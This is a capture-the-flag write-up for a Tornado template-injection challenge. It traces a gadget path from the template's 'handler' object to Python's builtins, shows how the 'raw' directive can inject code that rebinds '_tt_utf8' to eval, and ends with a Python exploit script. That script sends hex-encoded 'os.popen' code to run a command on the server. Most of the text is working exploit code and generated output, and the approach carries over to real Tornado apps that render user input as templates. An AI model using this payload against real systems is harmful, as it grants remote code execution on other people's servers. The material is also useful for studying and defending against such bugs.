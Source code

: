## tornado

### TLDR
There are two key points you need to get through in this challenge. The first is finding the `builtins` object or gadget which can let you exec some code. The second is using feature in template rendering engine to invoke a function.

### Find the gadget

Unlike the jinja2, tornado's template engine doesn't support built-in methods like 'attr' which can make us bypass the filter by splicing string. But it exposes an object called `handler`. This object contains a lot of properties and methods. And if we run a DFS algorithm on this object, then we can find a dict object which refers to `builtins`. And this object's path is `handler.request.server_connection._serving_future._coro.cr_frame.f_builtins`.

```
{{handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'+'al']}}
>>> <built-in function eval>
```

Now, we get the function eval.

**Another Way**

By reading the source code of tornado, we can find a function called `import_object`, which can get an object from a module. It is much helpful in our circumstances.

```python
# tornado/util.py#131
def import_object(name: str) -> Any:
    """Imports an object by name.

    ``import_object('x')`` is equivalent to ``import x``.
    ``import_object('x.y.z')`` is equivalent to ``from x.y import z``.

    """
    if name.count(".") == 0:
        return __import__(name)

    parts = name.split(".")
    obj = __import__(".".join(parts[:-1]), fromlist=[parts[-1]])
    try:
        return getattr(obj, parts[-1])
    except AttributeError:
        raise ImportError("No module named %s" % parts[-1])
```

And this function called by rule class constructor

```python
# tornado/routing.py#441
class Rule(object):
    """A routing rule."""

    def __init__(
        self,
        matcher: "Matcher",
        target: Any,
        target_kwargs: Optional[Dict[str, Any]] = None,
        name: Optional[str] = None,
    ) -> None:
        if isinstance(target, str):
            target = import_object(target)

        self.matcher = matcher
        self.target = target
        self.target_kwargs = target_kwargs if target_kwargs else {}
        self.name = name
```
```python
# tornado/routing.py#334
    def add_rules(self, rules: _RuleList) -> None:
        for rule in rules:
            if isinstance(rule, (tuple, list)):
                assert len(rule) in (2, 3, 4)
                if isinstance(rule[0], basestring_type):
                    rule = Rule(PathMatches(rule[0]), *rule[1:])
                else:
                    rule = Rule(*rule)

            self.rules.append(self.process_rule(rule))
```

If we call the `handler.application.default_router.add_rules`，it will make a new Rule object, and invoke `import_object`.

## Invoke a function

invoke a function without `()` is very hard in python. Can we do this in tornado's template? The answer is YES.

If we observe the template engine output(template.py#320), we can find it just converts the template to python code and run with it. There is a template directive named `raw`, it may break the original python code struct and play some trick on it.

Submit this payload.
```
data={% raw 'a'
    _tt_tmp = 'b'%}
```
The template engine generates python code like this.
```python
def _tt_execute():
    _tt_buffer = []
    _tt_append = _tt_buffer.append
    _tt_tmp = 'a'
    _tt_tmp = 'b' # we inserted
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp)
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))
    _tt_append(_tt_tmp)
    return _tt_utf8('').join(_tt_buffer)
```
And the final output is `b`.

Then submit payload like this.
```
data={% raw "'1'"
    _tt_utf8 = handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'%2b'al']%}{% raw 1
    _tt_utf8 = lambda x:x
%}
```
which converts to.
```python
def _tt_execute():
    _tt_buffer = []
    _tt_append = _tt_buffer.append
    _tt_tmp = "'1'"
    _tt_utf8 = handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'+'al'] # _tt_utf8 becomes to eval
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp) # invoke eval 
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))
    _tt_append(_tt_tmp)
    _tt_tmp = 1
    _tt_utf8 = lambda x:x # make the _tt_execute happy
    if isinstance(_tt_tmp, _tt_string_types): _tt_tmp = _tt_utf8(_tt_tmp)
    else: _tt_tmp = _tt_utf8(str(_tt_tmp))
    _tt_append(_tt_tmp)
    return _tt_utf8('').join(_tt_buffer)
```
The output is `1`.

## EXP
```python
import requests

payload="""{{% raw "{}"
    _tt_utf8 = handler.request.server_connection._serving_future._coro.cr_frame.f_builtins['ev'+'al']%}}{{% raw 1
    _tt_utf8 = lambda x:x
%}}
""".format(''.join(['\\x{:02x}'.format(ord(c)) for c in "__import__('os').popen('/readflag').read()"]))

res = requests.post("http://127.0.0.1:5000/",data={'data':payload})
print(res.text)
```